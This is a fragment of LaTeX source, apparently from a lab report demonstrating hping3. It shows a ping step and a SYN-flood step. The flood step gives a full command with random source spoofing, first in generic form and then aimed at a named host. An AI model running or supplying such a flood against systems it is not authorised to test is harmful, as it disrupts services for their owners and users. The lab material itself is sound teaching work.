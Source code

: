 \documentclass[11pt]{article}
\begin{document}
\subsubsection*{Output}
\begin{figure}[H]
    \centering
    \includegraphics[width=1.0\textwidth]{hping ping.jpg}
    \caption{To ping the target machine}
    \label{fig:4}
\end{figure}

\subsection{Command 5 - Syn Flood}

\subsubsection*{Syntax}
\begin{verbatim}
$ sudo hping3 --flood --rand-source -S target_ip
\end{verbatim}

\subsubsection*{Command}
\begin{verbatim}
$sudo hping3 --flood --rand-source -S krishnarajt.surge.sh
\end{verbatim}

\subsubsection*{Purpose}
To flood the target machine with SYN packets.

\subsubsection*{Output}
\begin{figure}[H]
    \centering
    \includegraphics[width=1.0\textwidth]{hping syn flood.jpg}
    \caption{To flood the target machine with SYN packets}
    \label{fig:5}

\end{figure}
\end{document}
